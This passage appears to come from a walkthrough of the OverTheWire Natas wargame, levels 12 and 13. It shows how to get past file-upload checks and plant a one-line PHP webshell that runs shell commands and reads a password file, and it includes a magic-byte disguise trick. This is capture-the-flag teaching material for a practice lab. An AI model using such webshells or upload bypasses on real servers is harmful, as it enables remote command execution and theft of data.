 To achieve this, we can simply change the file extension in the intercepted burpsuite traffic from 'jpg' to 'php'. If we do this, we see that the website says that the file uploaded is a PHP file instead of a JPG:

[![changing the request in burpsuite to bypass first renaming](/images/otw_natas/natas12-4_bypass-first-renaming.png)](/images/otw_natas/natas12-4_bypass-first-renaming.png)

[![successful upload of PHP file](/images/otw_natas/natas12-5_successful-upload.png)](/images/otw_natas/natas12-5_successful-upload.png)

and if we navigate to the location of the uploaded file (click on the hyperlink), we get the following:

[![PHP script successfully executed](/images/otw_natas/natas12-6_poc-success.png)](/images/otw_natas/natas12-6_poc-success.png)

\- which indicates that the PHP script has been successfully uploaded and executed.

We can now upload a PHP webshell script using the same steps. The webshell script I used (which I named `payload.php` is the following:

```php
<?php echo shell_exec($_GET['command'].' 2>&1'); ?>
```

Once the file has been uploaded to the server, we use the webshell by passing in shell commands using the 'command' url parameter. For example, if the site says that the file has been uploaded to

> `natas12.natas.labs.overthewire.org/upload/abcdefg.php`

we run commands by making HTTP GET requests to

> `natas12.natas.labs.overthewire.org/upload/abcdefg.php?command=<command we want to run>`, e.g. `natas12.natas.labs.overthewire.org/upload/abcdefg.php?command=ls`

We can use Burpsuite's repeater function to make things easier:

[![running commands using repeater](/images/otw_natas/natas12-7_rce.png)](/images/otw_natas/natas12-7_rce.png)

Take note that commands need to be URL encoded (you can consider using the 'URL-encode as you type' feature in Repeater). The final step is just to `cat` the contents of `/etc/natas_webpass/natas13` to get the password for natas13.

Additional note: it just occured to me that we probably didn't need to deploy a whole webshell, we could have just uploaded a PHP script which executed a command to print the password of natas13.



### <a name="level-13"></a> Level 13

This site is the same as natas12, except that the server now uses the PHP function `exif_imagetype` to check if the uploaded file is indeed an image file by checking the first few bytes of the uploaded file, i.e. its [file signature / magic bytes](https://en.wikipedia.org/wiki/File_format#Magic_number).

All we have to do to pass this check is modify the magic bytes of any file we are going to upload. I decided to disguise `payload.php` (same as previous question) as a PNG. I can do so by first [looking up](https://en.wikipedia.org/wiki/List_of_file_signatures) the magic bytes of PNG files, which is `89 50 4E 47 0D 0A 1A 0A`, and then inserting these bytes right at the start of `payload.php`. The latter can be done using a tool like hex fiend:

